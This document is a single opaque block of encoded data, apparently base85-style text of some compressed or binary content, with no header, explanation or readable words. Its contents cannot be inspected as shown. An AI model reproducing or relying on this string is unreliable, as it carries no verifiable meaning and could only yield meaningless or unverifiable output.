Tv>$ll`hEDKrSMDiP<%bTQU`gbQ_1|@>NGo<c-MV8&zGOph87s{9^FqVJWmeyZ@Q=CQ2`#C_-gBZZ@BwiAm3!h?qe9_^v-w~v72)9K2+kN_>63)fOtRq@Wlp&R>u_22hYF_(h8<Sr>?_8r=|&I<*Hd1ry$Np7%>rgMY>7|t56qjKnzSz|!^Q)L_#-^33#{SP?ZNSQm?G!=qbGT-C*=~4<1itO8mL*P*T7r8mYc_B{}3&@pTo|I9aE^C$|l4r_K&@6j<+4nlY}AR^U9)9s$ct{?I50+XsNw>U-INtI~07-$e>SHa5mi|LWtF%TNCy{5kHrVnBhn^R?VhxH8tm9f_&MP_J&6jo%Eg|$mNn76_z|E$P9^|5j<t)>Zf(NqPE=F@cxz_rGA~msv337KC$k8{G0=%dq`jt2%BK`F_q2;HJnIOqyi$VI_Q@yjTp&bWf+6qy%^MAUZu>PYL~e5oZb#9D@Yy2IfkY~VLsNV2q&zC{2Ngt1JD;HQ%0f3z8S2DXcHgS>f>bn++C^7>f$RbGoL3(VwFl`HG}34UEmu&V<<nc)(<R9I;ZkiUYN2VVJQo+t1YajXxA-8I9;`ghqWCen9^}})+J-2o93~JBNC>uKi~|kLz6)(QfYcUVC4-cHpvmT3ldaNARGv$@W=BoT2-DLu~TevVh&x`wszb&Y3LC&@s0E#9H0!3&5XLT`KG(D2Z8%(Z^@xgr?1gA6^0TDB*a4X$YB&yO={`dqsSnRp_s`uS*)TcV~FKV1NofY&!_kVCv{23veK>hMb|EasW|adM8!XRZg}n_{$xcV-jEX!+vNADeA4p^s@$UL5V4pQv1dzc^1~9g{qfN_cg|z<;1w0SO_FT~Xzy#a6<8;o=A3$0Syu!#7P4D|rv<~97i(cfi>l_ad#cuU^!Rn89*O1|7d;Bu1aC<qmm`@{#CJzW-Y36OQFJ7nEGeKLC+0hHi_2b-(Fm7>ovpYOjl_P3@n<I8@c*2iU8~SyfOM#B*0Ga#)g6X33%FfWLp0u^Utg$S3gI6rwtkLPrxSM`u(ktI{jXW!*3-5}`RlY~BKb$*<g~rM$2n5%NjLS<JqCoci>hebGx1;Ov`7XQ#R_<l5t^6$C~QVhUmg9MZS?u-S0+5rEm*q8)_M;h<OciD&xwOl>}<$qx(=P-)Sxy#gZE%g712xAWz0nXyo4t>ft-19mdvA(D_JHPAPDAB_PHv=mkt>273yeB0Bt~Y=<TRtm(mHH^}e!EN6B_F%;hlJ)^bvS8Se=T0G^oPo)p=RB(baK`c)3JS=TzcY86y7h;Xk8DI}srDZSwRx}t72&y7S`0ol2OX$DX0=r#EepdNMa&((~Iw|X~YkGVGt$;o`eF~O<+%nKFVZV$P(7M@ipmdcE!u;qf@WzGJbKu0{TREgkixS5Hww@VVG=I!q;r7z47u^ADg$_fj5Pyb4++e|+(^IN?2i(NR6O~U>#ln)gFe&E>aeoW4A@ip|WnmJr=X0lgW<a$1jBG#$23!2C{=+zPdqFBm!FasJUl6N2bT9e?AOzDUsO^n74f?0vqO==GYa)jj>(a&G2{-IeC-)(q+`CHPB@ZCq~lQw~xk*JC-gkA)**HX%KOL`55${y6pmRb+@AN=;{lM*~7r?8^X;pumdoq)|aVx61kz$cI&8c5Kbutilj&l6URoR8rT6w-_tCiWeo>n~kecWubS`LW05M+RRIbKdv<kN~6`s}%q(RD-mb078|;mP(r$%r6phxV7u4alMT^KA02q+t3QjxI8iEXn(&}a^1IBbsGl4{N{A9i~ol{IeQH}Ei%*L7LOA-qtll^=%aFv;;%WY9*541pukAJQ!AEQ?*jDhsyIA;c{R>nN=p})8{=%<i_cxVeEPx-%T^y330RX>C9%TI$x%l5wwqWPHn4s+b|$!=6)6@+bVujB>R)mEemxB8D<{2sL`1ED$;%RBlAAObP3n)BDg#$h?sCfr&AbNZzM3iS%~C#50<+vvudte#5xxWZycnE!wt5Zhx`^HjYCX;qwAsd29I^WwG!ACNB{|(BqFg;~YA%{mJS$IL`bF%Em$Md!?l#USJ2t1+S7T?##H`OV0r64ECq6k|nvD2O>%hSpLCD@&jg_n%Twk`p*43ho6`)T9Q)i8+`-Q<@H2Oh7;Ad7a84wRf@iFbRG&NGm<<znrq16W4?cEurL@#<8m({Ybto{szoi>*(i9M-oYIdm0%9pH%z<JAm2x_l?!td+HxnFf`*v%aQ0lQ3g%_53<>5S1ED9Os=l{)0DqoiU-e5Rcy#@x2Sr<ce6B2d=9R#$JN!UQ?GAhk8hjI1+b;|48TDpF}z<yMv60J__hL-+CEgO@`<XQ4D4S?*_*=NIH<!I|^r*(kv@@;;;3{T3bYZQ-^T){=(tCn7#Gg54jRV4%Tg^C3^<YjkSa`P${`%S7i9DO_|)wNF0-%B)V5bOK;1#O9%maDK0JlH<mHORT!7v?QQ$z7)_m+?hdqsTQ<wWz(*gDy@idZ+%rbML`i5EAmt&(!npomdJGn4CS;f07M<p?>^P!qp~30`%fep)M@I;E+7F>`rQA^QKhjeK?w#&^^KslF<gkTi?QUFMMYDD>uMZC0bvo^Ltp<)uJ~=6bKr>HR+lV(P<~iwimVO~TZIw(4Znu=y;dwSj=YsYI@JAJ(54L)6~Z^gOEVGuGgw>z@7)~1MgdzF`}MpHHG91Kn|-I(stax7>x<#1iqDawn<vj)@uB!WYY3=o@i%r8|5|T@J>I#mEC_-jgrx*Mk(ZU1ODAeJZelusD-3vO5Ya7U<5pOQx$kjE)lufhibWn<7;bVWUoR2a7aR%~1cQWBLz1boMYw8CRES5KyRlc5!r%yDKcqBrZ#=M&k7?K3J?YqB)yWE}3C5r%J-5NFSW3#?Ow3N<c~raMbXnRW9dpE{m%qWpC)@|aZM9}v&G4s-+G;Q?Ima1_PsQfuS<w|8hvy}bXCIwCZNkY`hfNxkRJm%_Z*%5hme4I~L5z(p*xTBx)l1{{ikQh6T#z2c=vDY_UmDxA3tkIDzQ*pkPu<z5Cqk?j11PKT_e05sCQI#0h-VxYq^awrZ*~Nm=_DMXq+3Zxzig%)g2|l5%zZ_tfqwAIk(y_|HB(7fE*Wq+K>EKgX<4f2;u7Jk;TUuvb2bh$+^f7GLGZjlR2;5;RC6L9Yd5pp9$Q3mL#s{g5ShBzLQCsFuz=|NjiyxCqwA|qsqTBF!c<i$cm8t{cJXSGP|2kqDf7>DBrD`KzAXfQVW?OmhzcQqfaKaSm1K-HOHH@$g!m}-zFodP{W)kKreWKZ*t(00)`O4^d%7O3Xx`6sG>pc$4%vL?kQds}#6j_Vq;8kzkrq#lVEG1&TnavM)cqmmNGW0A5kfLGx|uABH(LbOeDC~SA^evx?82h9hj%6arq9IBP9Yla7xFt>rr?q<I!VwRcsyiL{ApsBCzuKE&VmDVGbQS{o3CuCCp^qCfRcq_4ik<5qijYfOQ5*(eMB<dJVuKcbE~lpvcM8H?$S<B8|e7c+o#aKu1@R^!060X-a;@BcF)Or9^e@QDR!Yt9&HkdG+1SSyd~o47$HMyR&Z?kS%<W_Qnea6D$-O<o}c&~FFF&M1KPlY8;R#=ODd_rPYb~#`{)A2C#>RM&#|~n)!_RC9c&cL+7JdK?6eJ;k{{%yabw>ko}qL&Z9U_&B|PZl=0twcm$*dHscIE)G8?3T2B(A|pmA6d|DVWgQ|Q|!gvWmE+x^%(>3>^EAU?hJP7AT$M_$Epbfkde9MvT;X*ujdGBa7Qwqa-7KxY-S&v?%n;F-N*g7QOrf2KqeQO8z>@ogrvW0VmSkuP`t%f;pH);s$j_*F*ZV9W0V8ead%y}9^7D?<jWte-%6vr)=NNP(PMMzPq<yprD`PC|iK;zI9*%b`7yH_kBZmNO6E)jarEnm<@f)GL($DT&nrI4jSYu~4<4;x>iE2L}eoiU`xq>Cq9R-&Yzn#sBEQ(By0-nM9Q17QkhiA`WUJ--|JXS8ute|EcPX_SJ-|Lq($FpE)!A<k)qlhhd*={t{trmdSgQ7&g}vT$2}0^bsLOZ_mNHs7dpQcL=*Nmvs4`blg$5faXH|6?9_GxiDMMPKz=rk%5wW&oDL{V=(xTM=fk8?U<}BI6pWlyq~YUFxI8+AqK~}o{;M_6?<NxJ$$HC(+10WJ(|G$Cl`mD%c&}SA~Fz6<4WDqo3}coH>VBQ<hl|<25)E|eo?}4woA-EE4Pvy;a8Dq(Z&SgODTQejdXy<iS{V7ncKB*(^!t(EVzr~vTp}aU)oCF(Nf_wb8$%;h!s;1!c2wPx6fn{9I^(YIB!cBCr$~C_8}8frmzU=Jl>=S>we=S(~v5~l$oSPqpO?|A}?jmHa$_4TJyP0Z_M|^#e{(%lxN6Ld+uaWd0zx-Ar?|2+@-FN){_e=*K`L&Bwy?zGP--k(NvH2371$7Hup7o!1?S<N&te4x?Er4vvpAv@_{4JbnvIXftIJL7^7kg(TdNn{7`>2D83u|VcGe~T}T%_tCg1D93f29=e#eLISQ#0t3N7SlKuLihQ0}^{-X)_BO;zvsp?<7Y{Gbr0z_1J(D~zF!!O^9^d<jW$=qpmOKY@(sqN)xicapSO0jb_$G~mo4YHgaX#;g=V;BobREW%BkH<8R!$s?Jc_~>p=2zw@zr}NlCVdeNt`qlX)Ga$b!;FwK6eF{TZu%%IPZvPcy(DO4#O3|KBW0zLQjbu0sd3!ppRWFQpG?o7_wuJeN#2M**KvP1r^a;^I9T2H27)Wsx1pC{#NJtJtu`fLjHkLOET*fLQx=Q!$s>6ELne+Waous5B3rIad^Y$L)WgC%4>TMf;Z-!~Sfq7e7O5j{fA!p?Q5~inaShDY7vTtIHO6HCG62~fl}0ya(s@ykP1U9G#3{YpOac5#Nd88|1rmc8_+g<W<Co?qdDkD)tZsu18$`0qjQaU;_|QU_U-cJJnf(3umYwi6i_D{Ghw0IwfmfP#e{jM(-NBjY?q}$a(+WY_qZA|ejWrT)bqi91>GI<tBP=0N*M47Og7KA-0-qt4sLgrYa#Cvl`5>1)V}VP{z9?YFugc|I0%a<&P8^4Y0B_gpi#Ggio$J0FoS0orm_gdAP9H8UF(0DUfag%<{?PPTPSk^)kjp|IlmLE7C@={JV+Np8jz?}@SA`=zFCcB>#BFvp4F?$ycHAOid@jZ(nB;9^b5oGC8R6&b_Cb_0vy|XPI`Xu5)fi^WAe*K#P5$U0{TGlY6U*k<!7i8vBbqZRJA2KcN^r0#0CPGl6Wwo?*}XUD4{k8HO-bG>C3bOS__2=yMa6w^Lz2BCveM(7sVK8XNY4g4gaxM#s%g#fVcn6nMvqTLC3*h{#4$z^9eU0})#f~dpt5l&ha8<=Q_K<G&tyR}`_7OIQeA$1%%9Sdq;TT&_t9lHFk{kHu7~pQ7iQUUUob-^h(18=KdO4Y7Z}kcfdwUy)a;_`m^ns;sZpH(G4#m>bxyzEbh=>sv^~(4gOR84(v;5*f_=BB2Js=We<N0S7qQ{pK6$`zJJx;rmtqvWbt~0c_Xb=<g1ird)muev-v1p`<y!LGl+zl;;XuYY?rZ#`#1`077ts#y<4I1rhzBQ((|1*(%Xu=dW-Mu84DLi>lZ`=896p=CG{_ZHyXnz2*Ww2{`Yr71XS)b)@fd*qT^T~@b0`9%ndKarbJAHIye>mTl>SjCv3w$^19^c|Q*@N?$;Vtw)t>0}JdEu=1jcZtKLKMFB57GkaZQJ43r1WG5CE%}%XR*vLr^ZUL@M}Yxd#knlTx0j1nBhq;#>uD%P4wmjX&?);xgoRxFp+$7TH>9P0qZ^k0J*r&>Ww$o16+D9V|)#gt3Sg$R~!L%=|Z=XQ5-)oaLCjE#8rr0X$GWN_jyVGRK})v8)`@acgtGUhvkl8K#?Ow)(hhcc`{)TwxrAPS=%=i^zMr$$Yd?i^GC+=#xp=br79Gv0n!;ENM%?|Bjv*Q#u|?I3YyNYNP+n8D1rguY0)<3?Tu9w<k(nMCdS{<SeZ2?$SjjKT;r@tv3*Rz>dU+a&p^m8+9BCWH`azjeda*pBp>Osyz}xIG>()ThRj2%OQYyI&}#-fk+D}(4-73Ui{w2Tt2zWcVU=!K|a=(u8{`CvuBCOHGqvjDBwi%)S=K(ve`!+q#Ptl_EuJaIu&2WQ9XZ}8S#O>5Pn*|?dwX9xVHffNRnxYT_q4YCxqXb<uUS8?z2v6hTZNApQ=M<EYB{U4<Akn9K-|?=UUBynhxLZK0PXvMY(PT6%wkOsQe8s{E|V-n=K2A)$C&muqcy1w@*XN(rXLF?|}hj>?%K>>4rb-8r`UnB!Y&|iD170O2lj4hH~Ij^Z6&erJ)n+d1p{GWkN`(?zgU%qZy#&Btdo?)VFyha&kiQRbC>-e@d+ZlH&rcwxcUu#gg*h4S7t+ma8qLFar7PQ7wflKYy_)tI!fC%x5&@JWdkM3~)v`td@IaqadcqxI>%3qSDVL<m)7MO&<~H7zkR~2)|TP0}V6~FnYroS(t51+ti?f)->LBcTncHQU7bAmjhLHutcu-b>HaVLW_d8pFco2#Zn|h92EYUwTo%0`g{V%6Eq<`Ej<H{(PYAJ?hxNFE$t;f=W0QZnljL<HlqJNa_Vf7<#4KMcBNi<^Q75Q{gr5hTd^TGxW-&_!z~tiN0+%6`z+?Tbyxvev6U`reb?gY&8MHqJUIL2``^wBwYFM&f~FQKmq=4w=NaO#S1-Z1*lsz^$A*fy2^4$N$|U{vLJTLbo(p}@5}f*g^%;-4BS)t)|H|w=aDqGmaT0dEece`~u*nfn77>6<TO%koW&;*pGD)cJG0*(W?4_cSxP=pfma`Le8tz!wgz-#wpH6}_kMQKdzc*R#@9`^ZC#Pm*wnIBI;xo_JwbRfqU~XbDw-r56BwsmZmRn==M1I#qVvZ$U;N$X4lD-~xxXG---ilR%h;Pkk&0`rCyFx*g`4AR*^ezccd(8RAN)@~1xrE21eU5`c`F-H;tX1;H4Wz$O9^B5<L1{FWV<I|$kB8}pmI$YP3h6iYI3SR@p^}`idEkOQdyY6O#VW~X=Vr<|*{PqPa3^}DInVXE$0m2S!RmYbN(SpC!inUM`2!S3_Hi_Q66%8;YbXUOuQyJc1aO%y(-9G=*A_Fr5ua%Cg0g+V<I2CgC-$j6+r)ii0Re)hYx$ms!&jk=+}TneEAJKv#-I9xc~Z65&int?3HS8sL%<jHi`FcVGqi#Tk1KDe79jr`Ktb-w$&0t}QHP+(T=C+3guBlu#n6}cI)hoy;(I;K*k$ndL)b)!Nx?gj5KCmSzh?_r+sR0A{<DWSaYmJ?R2XeTBP8eTG4+Yo%X;Kr7B*94EzE6MJbnnt^Ic5qYtS6KTU^P4^6~%Mamxqr^;y?r5A4EwzBBxE=;-4l%jya`5|lE0?&0|iZPov^uu*)sePHz`P6oh|fSM;jz`_cwq9zMrLgdiy5f|rudQus8_-C^$9COqZzlZb-$s7b!_&&nr#wIwPQqz{xRlsm>kSOGf*^=6K;57HO`{kzOlmuXHU7#nUmTL7a&4Hz6Hp#-;C^NZ~FDlc0BbIM3Hrvzx&pxhXa02=$$WJXiOlq+;aSi9D`JX-btSbMjwgxcjl2~T@!;6tv&GQNi!$E?8@_;mE`ln0K%&R!`RQekKlMaO>Cf4R!i+iMKhjO)!lPz6HJB3P$z*09tcb;UayFc)HF4A`CeTWrHyavpQoB%l}NsU`un5m5bpH|Y1do)p*A8F3s-Xsl!aDW$cf}y^~8llI3nh_N?Nk;0AJT|}8gx4<&m*!6*vfA?H63!FtZbk#5SJz%zED{TNuAEL>K_ik$RnSFgu<7$~*Ho>=cSppl+9#XP*`!^LCPVE<A0kz1lzRVNt)J$Gz{Ph~MEF!O`woPHgP8}$S89*mD9IySzuH}mmD!HC6<#A^r&_9_3}n`}nK`R%(ma;j8YysVl?ft(8=Q!pC0LHK&j&09NdRJ5Nx_w|W7nMWn~#8_OLr&DtlNvf{)6z<^MCH<HSPlGKH67kWh~3~d1+t5l{0FJlcP3O!B$w%co(k#rz`gv=rT+vc+w&6Qag!k-5@sOqP7{yryN6(@1Jb016)<oG7p}=-ruCv5zdm%1ZMLuPfC;b^2CcgrVUuHcvLk17{=QE!GLKR(=+klT0dSeQUElDsSx!xUizFj3CD21#39bTjN}r=*RC-T)prg4SY9m?v0e_6(W7xob?%7OwsJ7fI-$XT!@((m2YH&eE^fsPfQT&pXyzh3<8DT0C+bA?TdO$2Qe~%5Y3iy<E9$s20vsP2Gmu;FTvP{NAZA0CB#md%(<F*+!GIJxbdgNqkODiQLA)8tC_q<={LLA<7SV}-`S?3t^nG;+`08z^m5zEVf1N%bzV&yl8|fCkg|&)ZHEYf*g^5~4Se!2s&m4dQ<xX*ZXby*JbGp>#x9yDkFW~9A=iALUhcY;2q2JapmQ#>J9ThCkTnINaOKOHj`52cHj|?cJZ4&IFB+k=o#5$f2M!}@lgCb4@zwo)4x4rDsM06nNE6?_at>FqBX7D)e1n7I1-PWGTdEHfF7npkG8vFiJprP&XY8aM51qRWjVC{R4X~({-p-#f_#TgndWk|)r@8FBwTuWNcC}xQgC>-!~17^XzmrueG$qT*oWnkZAIFlu!*bs%U4sDPAogHC&`+7D-ai`nEY5Y2zWrQZ2GvRJiw3-IGcEydmM2*Aj`bD!@uDS-DjJ7Xc@mVCikV7oLpy6ZD1B3J{d{pNUyPLA0jqo(8G)Ne%tJSwBiEN0i!oNJ(!#X)%i9Y^hNgEVE6fW2h)VKxdT>3<vpl+>^Z&D+5=DLU7sKV*Nr)AihpdX&^eUqo<i6Nz~SHR0ZS6WLuUnA2F+b3v=yDgG^_ojXapn=B1WHria5j5;|xfl`fvYMo&=B_T~FJ5R4!ypo8Nkfd{Bu7s+YrsPfStZ0X{^lb+QN>uRjf#5?UY~0k{+iF~fd4N!SGNt3n*L2Mjzp8mcMOji0A4rv&@{2izPsZKs$qB>wNj-}YH5lY8mK<5b^+2>&hqh<A_yrS!V=8^*kQj6;sPqhePME9m`gw?CTb6!B5H&GAzLLW##fZwkp5Ak{Oe{pJ19Gw4XinBxM}IH5yMM5jsf{pP|HgsSzsn<o!lyNcOH1P<A@i?*uDt)94-7CrfatZs9<0|4IL%lWYbKRlTeCVpv-nF?vRZ4qL*sif5!zB$KVvfrSe5i*X3FYR(P0)XSla*R?CG>`hi`N?UM$oGK@&Lg<!K*r}0Wft4hR?<@`prD(!JT3%1APXsI{E>uT#sbkeUxtKI$IVWS0Op?NArTY~Ol&L8KXsB>Ur$3oLxPt)F6X&((xM>-xTyb(HrO!xkobWWVUk?Q`t87yDlf%C;55IXV&v1`5s5QN!&D7QOL^K%kC-p0o_%Su})q&K92L4Oaoa}k^%C%-o+*oNw-CSBGdTbsXnLP5!62bM1O5xRFI^e!Z1B+lr;3wboaq?erY{5|pxoQ7bb@Xg)N>5S5LfjmYOskwLoLLdwBB+#ITnm^^p_0JH&IX79m8z)aYG_%dM>n6jTQhJ`1&60b=P$UlaMKyQoCD(7Hfz*E^SRyE_ePNYkhy~*tQdyKxTcpJ;VwVGiK9r7N`t$FZAIwXSMxq%ixbObp_@xSPxXLQ!g-$UaFJZhgRL2A@K(DjDm^;!YXMHZGI1vY5NiWvg1KciSA6<5-nv-9Be;=UZw_Bp4QErPtya2_F8iv#K4_6=qQe0v_7U&TBSU}#f$_3Pv<JW+&LRe2E5psp1ZZRD2p*W=rZqiEYHD0tFjVAxpi0iE93j{p}KTL%<;yrqr+JdpVxxID4<}QZO@sG4l>_7@2MKcpzIkl>bJ;2ng^<8CU)W)&c)(b~*!A?r(@8u;1j+db0;o%fO-}IAM7!AAMbp5=S&fx6!^sKKiegW4WqOQ$}QL{};Ohz`34l1m<r{~1^D#L%|X{(9K4!MR7Ymj>!sbirTnv<AFM3fNOAj&^e>HLu)Q@$V|3mCTTr*Y0426~mVlVFJ_D#<?hXPvX;K70?h>4iJP7QKI3&~X&yK3B%LiHP?6aS2D|@j_ux1zD;QDaE`I>!91}Q(Com)h?#s-asfEtehHrg@vhNx6dUeKAv5G7YjXb0@g{Mx5k;ljq%77K$q`c)&4Qm@r!Po<=RZ@K)|~W5hl3iA+2&>58>KEoe?zrt0LjR31!;MYKW4D?f1<!5Pz2qO(q$Q2g36%l>R_?`<4@sw?nckP|B>i*_6)$ZUD<Uz!YrIBR%HL%dG~@>l&2TeB&*(hQx8brX{<3sUW)Rtikoh;~%RppRMl%>6NUlSHe}CkN;KQy908GQu{JXSdY#GnH~ZAdQBUxWHwU@4H~ce6YkoFAyuK{jM9UX#^Kzj{Ue+FmB&4r;GJ+rc(uP~R<m@+mREsYiO=!M*J$`hIdI_FV54t*aYNoewO@5+2T77t2mIG!Ecg~fQzjLtOgjt_R%!JLJs4ooCh-yLxPy@PCzVHV-c%s2<B|>~B};%uK#a67DOTfFw-;r|raufdy;y+#1=C!sY)znhUtV4pp^g~O$(HrXDYCfZ1jv^N{jw3Pm}kKW;@>9mB~~<3Uw5fdU~4@!_+$hG>-v{W-bSy7;jD4uqXDQQqQ1t)e9148<}YYDOohZiP(TZs3E1$>jU?5Q6$P<pNg>uo(<OB{tiO~%iWag1WvAFoZ`KYfpY2pawEOXyxNFG~w@na0{Ehn$u5)>;C!#amNF^?YAI0<JoxrB#aa#7G<%#<yKh9!gRpf%E65-KJtk>d<kzD<#xj~rb*v-YH3mH75u3}>3KPG#ebTTiI4rc@Mu>#`9bFe-YiK5x-mNz|DCrXS7QCisk-1Z--hERq+yxyFdP%W}$p<Ep&Hz9@Vn^oq8lcZ6D#<N+Ov3E9M4A#|*^;NuH@H|LZP{zC7DDdV<g=5)?u!sroJ5zZ|0-=J@YJ_A*m@H;}(+z6Qt_G>C_XxW|#zC8LuLOxx#PP|AFalf=57%1c>g{v5waU|!xK5f3J5`{ct@yg<9C+Vkgy8Vv1CqEASTdd3(_gveLhaG{#8q+T3@}$Oi2*jv^u_<`0=J;0Q7*H4<Y(77Zb-?Y1L2X+*SmB@6wCP97b3gm3e6pZW`QVo5bG7_4kE~|P@iZF{O2hN(@nYhZPirHafszehly`3d^ipj>qW_APfMb0cKT?r9Q{rGv7bY9GSU~@1n)39ia9wYsYww=n!g6W{m~*#!5!;cv64*vlxhe0=gmepB<;_@`sNN9yukqM=*Q@rKw~Zi|Fu$f_0jKcwi(NSn&HMnR7%(IL915ZZ4uya6f(5m<>5GtRel!p+st<+MStVg%9sm%Q9K@&@>>fnSx`C<^Za;V9$X=Mcmkj#m&5%Om~dh?f6r|ZZB=<*f&SyWXL3Mg<C-DW7$|3qBUVY*Ff{RP;Zrw%ffjgqx84Q!JUu7Io5LIC{3<bWXR{6)Wo~l&3CqCSHkso^B$FIknSldO#tZ9V*KSwqm&=zBu4&iA<@)-ET7llwh|F=W_F#;=8C?e&lXs{DWd9q{r90{qzr{3aSv-~m1f(g&8v(P1eL$uMNCqZDQI>{%ZDUMNCls1(AEnI;EGQu*sq>0nXU{qLdnEB{qQKMzVu+v0$1%KBq{^Gtr_;}czX;piCu)K?+1D5#FTrYmy@STABzoX?%CW=xiyi@%fJJ(~<cBmm!44eyAFwS}T|%ze|0p~vRLCB(Go{Z@qAmU|eWLaGC;QS1YyUzlqTJboa6LxZrx6Ph6*6e{#93<NnqX)8g_Sz8kU|rv$zm1`qmGm4*zx=D9DdG?i{$$w{xHX>Wnx|jh*J?&b}LQR;#@<ho-KhxduB+R?M5#wA@CK5vGIiH<0N;T^NeLewQJ|G-%3R#Eqj}M8No<ftYnCo{DCsTTJ@DDVNC|wf9UFBsB^A^@tAN7u`xyn#gfS;3{c|_ge8DZ;<N-2g-THFl|SOf2N1qbV~<27wx;|wygw2J$H{_DtmbNM&!ZQ!Q&SvR^jf)*=-e)2_dH<2EU|cDBSb5NzaAsM=y=p`f}c#|QB7&{Ac(?&_gs|@(z$TBe}dgXJy{}_d+F-2lB$mtVx&$rOg;Hlx1_r~(82vi{`R9h!#%$c-|&}%kRqN)`Uoro2X|!R(P!NBbzAS=Frsa+7I<o5YeAV_i!)~y*w?WM4%mBKov$wol#}tXts>x_?<J+wbW`U+`^bP4^^OgG;;qQT_U%DeToKr@3Iy+t?Oi9)Z+KCY?LedGi06!Ks6j8^&cQU}ZJ5AAdjaOt<{GZh_39q;y)5e8jC&6g*K}17#-Gn3AEC+WQ4Uq(%WQC;h(nS*tA3!e#!WnTH?yC#8LPDx2=ML!4_v5XaZWISF=HJrGP5dpE%h*b)Aesja&$-CX*!P<ChkFoUk^7$4=fQ)4~|$5zaeH$b(l&4sa~k3VrF5zwrGryQkU2Dg#X&3Pd65^JEbx&B5-EjSK9hq=!=VbR-$DyutDwGL;S%K?n?%cWx9d{YF0BAB=JLl9B^A$ZqvTk-45>JY|^YrHU%}?gOK|bh*HS3u?5-5;I_=CvM@O(4|rl?V0GAaV_vTd0G^8_81r9~mkpZ9gBx&CXf0uRm|wyHMXRJUvDrZhU8SC)Go#<Q)$r1n*ko9_V;Igbq|L&)TL{Q;`{%hlx8<-73`G*y;YDUC0(ZZTE^xpA@SRvUW$G)7lQU6{p5!C|29m9JYr(VOFopc0LbU3m_5aIVlMmoJgE~PD3Sg4ewQ2*uhmZTdW`vKq$I=I`TcXm+2uwCx1hyj-tW#J!Jeme1Q4p(_Z-iJB`zjD=zjs@z+jUYq+{BG(#+r32Xn3u>CDQew{%42HPL-ra=yrZjl=tkauw7-Wp(cq1igD~)0>Rb@rHee)*p_qTA@8-noz$0OWOm5P@|NijxR?u4B;b$$LO4~_dSs1wN=}*TQd5#JThH~_*kJX2*M`X1@TB(yUziJ~MrQ1$O_AC5uY|(4ndnDJjdeeF-fV#z)k`X1(Q_WFGVWf~Oe|gl*`hOP9jK8qm-FiS^?a4GjsB}>WY74T3oR~NcF!kH1U(a}DsD*%60@A!YdnK8^)qtQ;-R13mkbj3VC9bq7hXpDB0=lhd%#I_ll4XCB3hvMU<X%jnNH&nnSuBx8$EMVvbIO0;49JnU)1$&mH8%CZ=E~><H!+UBoUF5gSlmR|4oCS@y_Ei#z2<z?7ROxe}4Il&PNoQJ7}t57-Yc>kKzS81?-hor8}Hz94E~0eps(a{sd(k`?i1Qh(>U`rLu2Nz}4qL1k;}xrE5H2^^Ej6Z3~9j7gS#Pyz`Q%bu~Y;NB#iNc*no;s4FpvT;|33Q_4$j0hCj12zrAC?kz@yQ>o+M-2yWP6ZN&LM+%!W_^Fj8>(4RSPepnuY|+918Se6y&h~W0*Q1<P@uMMw01sYh7tly|ryjnUnA)yw`(L2PU>fsXgABkuWiOr0{l6jR&f5hI0WlCpLbYv*ICF2WTYWe^^9ZZRa#%cb4^kCx$U}o?mXF^D<jLUQZ+bUNXy`$>&wYiq#cBNc{hi>E<>!xQaVSJmtR75>0Mr2bo_yaRItIhLa+}e6OXFibKHKnVnz7QtN5{n~R`8%6U_m{SFRBRpcOmB!5{#aEha|)ZRl<M~H!5{)l8l+XW(^o&OK1<-Uf60@Sk7a)L#MtO$T88xIf14c*@w^`sJVhOH!-vNDnn03SDZ35K%+>ST!f3Qbj1ehmflV81FHVQ>Pb8>tsR>B=ESqP&L)vY$nh*jwB{sB+QU~OtGKKIgy<G?ezsozzD+r2V%Nh4{rJ+;3SX#zSJ@?2<RtEP>vHQ@bTtNrZ_pKjZgOQod7S!BgMAubAoXhXq(^A?Y5)FB(L%>~$9`m58%@(lPyJ76+jzPFC~9$AuF7|8e4~bW#56W?leCZ;;<RzcYo$bU!{YnX2)Jl1#L{bgLUdg)S6Vg?L>ah$tcLcG@v~Ob{ynQAb)oYY9$Hbw5j9;?TI<)gu&YFps(58O9lIqqYeui6N<H)&W36QaX06mpJ9gN^fn+V&ep6k6&y1aOe2CqtsPsJxHNAH;6xQ2(im~?;Oz6cEC$4YWfix-%ZDC4q=lCcYNRrVbaknxhdHjC4Y~NZvwZNqL0%VYP<=PIvu~aG%FQGoL)2re3?K=qQ4EB_k#c(-A-Equvn@;_!>$yF)Y3x90Y@N6OyM;FmLh(Lu;SUAbixqm_BgmpwZnrxhSz}gO4pnxrUMbNSGr}5DunPdj``*QEvPFgBy){jT1&(wQdW%6PqCnSTM)b@*Ymh-W0_{ALO#?OZ-r&$XvtAb3E<O^_f`C7z$tHtC*Qme4O1o{q_!i{NC{jaLkjyJVMBI7-Z}U1}GBWP;*{j+{p9|og$W%?j8x%`t%10%al2lLq$%^j}3xTU+ka5_*#6h<;9njLKY{fC`{y75aBIL2zKZ<2H>;$AQs8=0%d0H9D(!Lo%#~!?f_|yQw?U48WE1}W!)vY4{h86|(ZtJ<W1_C>C%4htoJ;%VC#o>gtmfYDB?idcno2mc#+N`^=GV$_j6ZRLxDHM5iM*axh%wb-Ac;`1v+S)@Vtu@$-Kdigg!`Wu)R+O`ywTAlQdx^5)PjqmNrBQMq5U`c}<O1VGFRPj?sDs`#q$7!nj*V>kOk4WeZJ!wvo3Wh{Z(Vsu7!eN7?V%0B`J7RdyRV%zhtFh$C(TvEML@<#yU8n;1(EWbT6{NihxF+*iY)k_&o6UL>5Hivp6!sG$+lh<BGxPn!Q3%_`W07fx9bT1x_0@1Zui#kMH9=yn!3oweylu3>&h*Tmu{Wxlj_52<V4#N`nPjI?bbxvbjD~QV+rfQg|cVwq%QM|k)g3Y!$HuXJ`i5Y9tDbkroI2g>Nl}fiK*WoA)C=&Umm>9BYV-GEeN$K>dKUcCY$La!*^s@>+-=LIREHG60?mOW$i>5$^+&86)<2}m1NLg2r7js4|aP|@{_S$R*Hhiv(~F4VkXlsYMZEHj2_E@-kLzL=ge#w;9CPv`MIax-_@{)=@r;`xP_$BHt%Hv`O)o;QOy-+zKi<BZ&5(<%0t~OdeTSLzdt21?n_)x0Vv7&fU1YUcZLT+BI-WAeA0r^mDl!4+(7WY5v1_e!>CsY@zS{kSZC&b$=q_(MnfJTF!x(bM*yz(mU-{$?IJdn^Rrz%IoW&*`W@c7i9GLuz3!5MWbOhsj?-{Nd(DAo=)<hQ=Ue%cx=yroy1y&s+k!*;<(Ti&r`<&Q+`|f{`jqp>Vx_Se!XSVy5@E$v-5(3xKB(Yy{(B(-;;jLn#qfc~>BhTD!XeP#{?$_Bl5joaFbcX;9r{D+rAPj+coBAzZ7;5|uzvcJ;y+3|=NVqM8-?#*YxJK3s8dWb6`dIXwlF~c+$ghR9>ED#^-BUHmI7MwCo^?83&